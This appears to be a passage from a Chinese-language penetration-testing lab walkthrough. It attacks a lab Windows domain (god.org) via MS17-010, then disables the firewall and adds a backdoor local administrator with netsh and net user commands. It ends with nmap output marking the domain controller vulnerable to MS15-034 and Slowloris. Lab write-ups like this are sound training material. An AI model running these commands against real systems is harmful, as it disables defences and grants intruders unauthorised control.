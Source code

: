 
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678880029484-4cc50201-4f2b-4e32-b408-e204b160ebfa.png#averageHue=%23262b37&clientId=u2d9cfd07-d2a6-4&from=paste&height=350&id=u55e841b4&name=image.png&originHeight=437&originWidth=896&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=188155&status=done&style=none&taskId=u31583fe6-6eda-41b9-9235-1c2c4b686a1&title=&width=716.8)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678880098093-c11c5d3a-6125-4c17-ba79-58d614bf3580.png#averageHue=%23282e3d&clientId=u2d9cfd07-d2a6-4&from=paste&height=178&id=uf0198413&name=image.png&originHeight=223&originWidth=632&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=98383&status=done&style=none&taskId=u3880364e-0faf-4544-9dd1-2aa3c4e359e&title=&width=505.6)

内网存活：138，141两台主机
扫描存在ms17_010
![](https://img2023.cnblogs.com/blog/3089046/202303/3089046-20230317113118041-555995304.png)
使用模块
第一个不成功，第二个
![image](https://img2023.cnblogs.com/blog/3089046/202303/3089046-20230317120638412-844858260.png)

`netsh advfirewall set allprofiles state off`  关闭防火墙
通过ping信息收集中知道的：
该域名为god.org，域控为OWA$，域管理员为Administrator，内网网段为192.168.52.1/24，我们用Ping命令探测域控的ip
![image](https://img2023.cnblogs.com/blog/3089046/202303/3089046-20230317161242491-1825805818.png)
确定域控ip192.168.52.138
在10上创建本地管理员用户，尝试连接域控3389
`net user hello 123!@#qwe /add` 添加一个hello用户
`net localgroup administrators hello /add` 添加到管理组

![image](https://img2023.cnblogs.com/blog/3089046/202303/3089046-20230317162202200-273434626.png)

nmap扫描结果
```shell
Nmap scan report for 192.168.52.138
Host is up (1.1s latency).
Not shown: 981 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
| http-vuln-cve2015-1635: 
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System account.
|           
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
```